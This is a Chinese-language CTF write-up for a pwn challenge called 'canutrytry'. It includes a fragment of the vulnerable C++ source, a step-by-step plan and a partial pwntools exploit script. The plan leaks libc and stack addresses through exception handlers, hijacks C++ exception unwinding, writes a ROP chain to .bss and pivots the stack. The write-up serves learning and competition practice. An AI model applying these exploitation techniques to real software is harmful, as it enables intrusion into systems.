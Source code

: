 ```c
                visit_nep();
                if(choice!=2) exit(0);
                left_nep();
            }
            catch{
                std::cout << "you catch the error " << err2 << std::endl;
                std::cout << "here is a gift for you!" << std::endl;
    
                printf("setbufaddr:%p\n", setbuf_ptr);
                printf("stackaddr:%p\n", &choice);
            }
        }

    } 
    
}
```

#### 思路分析

1. 首先要通过visit或left中的异常处理，泄露出stack和 libc的信息。要注意的是，为了后续利用，这一步显然是通过visit 的异常，也就是size值非法。再注意，因为只能按顺序来，所以第一个堆块不能非法。所以要先申请第一个堆块后，利用第二个堆块的大小非法，触发异常拿到stack 和 libc 
2. 紧接着，要利用left中的异常，也就是复制的内容长度超过16.这里需要让异常处理跳转到menu（）的异常处理。只要把left的返回地址，修改为menu 函数执行完成时的返回地址就行。
3. 第二步完成后，程序跳转到0x4610ec。这里会往bss 段上read ，显然是用来输入ROP的。
4. 第三步过后，通过0x401652函数，程序最后跳转到0x4015d4。又有一次read，可以覆盖到rbp，同样会触发异常。但是最后还是会leave_ret,可以栈迁移。只要把rbp覆盖为之前输入ROP的地址-8 ，就行。

### exp

```python
from esy import *
context.log_level='debug'
io,elf=loadfile("./canutrytry","",0)
libc=ELF("./libc.so.6")
def visit():
	io.sendlineafter("your choice >>","1")
	
def leave():
	io.sendlineafter("your choice >>","2")

def visit_op(op,size,idx): # size(content),1
	visit()
	io.sendlineafter("your choice >>",str(op))
	if op == 2 :
		io.sendlineafter("size",str(size))
	elif op == 3 :
		io.sendlineafter("index",str(idx))
		io.sendafter("content",size)

def leave_op(idx):
	leave()
	io.sendlineafter("index: ",str(idx))


gdb.attach(io,"b *0x401600")
#1 leak libc & stack
visit_op(2,0x40,0)
visit_op(1,0,0)
visit_op(2,-1,0)
visit_op(1,0,0)

io.recvuntil("setbufaddr:")
libc_base=int(io.recv(14),16)-0x88060
io.recvuntil("stackaddr:")
```